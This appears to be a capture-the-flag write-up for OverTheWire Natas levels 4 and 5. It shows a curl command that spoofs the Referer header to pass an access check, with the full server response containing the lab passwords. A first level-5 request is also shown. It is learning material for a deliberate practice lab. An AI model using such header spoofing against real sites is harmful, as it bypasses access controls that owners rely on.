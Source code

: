 hint: Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

okay so we just have to run curl with --referer "http://natas5.natas.labs.overthewire.org/" to get the password

```
❯ curl http://natas4.natas.labs.overthewire.org/ -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
easy c:

## level 5

addres:   http://natas5.natas.labs.overthewire.org/
username: natas5
password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

note: using curl instead of a browser since level 4

```
❯ curl http://natas5.natas.labs.overthewire.org/ -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access disallowed. You are not logged in</div>
</body>
</html>
```
